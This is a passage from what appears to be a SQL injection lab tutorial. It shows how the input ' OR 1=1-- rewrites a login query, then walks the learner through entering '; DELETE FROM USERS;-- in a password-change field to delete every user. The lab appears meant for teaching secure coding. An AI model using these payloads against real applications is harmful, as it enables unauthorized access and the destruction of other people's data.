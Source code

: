        if not users:
            return render_template('users.html')

        return render_template('users.html', users=users)
    ```

4. The highlighted line was modified to the following query when entering `' OR 1=1--`
    ```{.sql .no-copy}
    SELECT * FROM users where username='' OR 1=1--'
    ```

### Step 3: Delete Users
So far you have perform SQL Injections that bypass authentication and view data that were not expected to be viewed. While those are damaging and can give an attacker access to the application, some attackers perform SQL Injections to corrupt or remove data. Perform the next few steps to remove all users from the database.

1. In the dashboard view after logging into the application, type the following in the `New Password` text box, then click `Change Password`
    ```
    '; DELETE FROM USERS;--
    ```

2. You will see a misleading message like the following
    <figure markdown>
    ![](./assets/password_changed.png){ width="400" }
    </figure>
